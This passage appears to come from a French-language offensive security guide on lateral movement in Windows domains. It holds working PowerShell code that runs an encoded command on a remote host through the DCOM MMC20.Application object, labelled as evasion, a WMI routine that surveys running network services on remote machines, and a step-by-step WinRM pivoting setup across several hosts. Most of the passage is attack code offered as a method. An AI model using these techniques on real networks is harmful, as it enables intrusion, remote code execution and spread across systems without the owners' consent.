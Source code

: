 #### Techniques DCOM et WMI pour mouvement latéral

```powershell
# Énumération via DCOM avec évasion
$DCOM = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "target.corp.local"))
$DCOM.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c powershell -enc <base64_encoded_command>", "7")

# Scan WMI distribué avec gestion d'erreurs
function Invoke-WMIPortScan {
    param([string[]]$Computers, [int[]]$Ports)
    
    foreach ($Computer in $Computers) {
        try {
            $WMIResult = Get-WmiObject -Class Win32_Process -ComputerName $Computer -ErrorAction Stop
            Write-Output "$Computer - WMI Accessible"
            
            # Énumération des services réseau via WMI
            $Services = Get-WmiObject -Class Win32_Service -ComputerName $Computer | 
                       Where-Object {$_.State -eq "Running" -and $_.Name -like "*network*"}
            
            foreach ($Service in $Services) {
                Write-Output "$Computer - Service: $($Service.Name) - $($Service.DisplayName)"
            }
        } catch {
            Write-Output "$Computer - WMI Failed: $($_.Exception.Message)"
        }
    }
}
```

### 3 • Méthode pas-à-pas

#### Étape 1 : Établissement d'infrastructure de pivoting

Configurez une infrastructure de pivoting sophistiquée pour étendre la portée de reconnaissance.

```powershell
# Configuration de multiple sessions WinRM
$PivotHosts = @("pivot1.corp.local", "pivot2.corp.local", "pivot3.corp.local")
$Credentials = Get-Credential
$Sessions = @()

foreach ($Host in $PivotHosts) {
    try {
        $Session = New-PSSession -ComputerName $Host -Credential $Credentials -ErrorAction Stop
        $Sessions += $Session
        Write-Output "[+] Session établie avec $Host"
    } catch {
        Write-Output "[-] Échec de connexion à $Host"
    }
}

# Test de connectivité des pivots
$ConnectivityTest = {
    param($TestTargets)
    $Results = @{}
    foreach ($Target in $TestTargets) {
        $Results[$Target] = Test-NetConnection -ComputerName $Target -Port 445 -WarningAction SilentlyContinue
    }
    return $Results
}
```